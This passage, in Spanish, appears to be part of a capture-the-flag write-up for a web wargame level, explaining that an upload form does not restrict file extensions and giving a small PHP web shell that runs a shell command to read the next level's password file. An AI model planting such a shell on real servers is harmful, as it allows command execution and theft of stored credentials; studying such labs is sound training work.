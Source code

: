 <figure><img src="../../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

Al analizar el código, observamos que cuando subimos un archivo, se genera un nombre aleatorio para el archivo y se le asigna la extensión `.jpg`. Además, hay una restricción de tamaño: el archivo no puede superar los **1000 bytes (1 KB)**, por lo que no podemos subir cualquier imagen.

Sin embargo, dado que no existe una restricción sobre la extensión del archivo, podemos aprovechar esta situación para crear un archivo `shell.php` con el siguiente código:

```php
<?php
    $output = shell_exec('cat /etc/natas_webpass/natas13');
    echo "<pre>$output</pre>";
?>
```
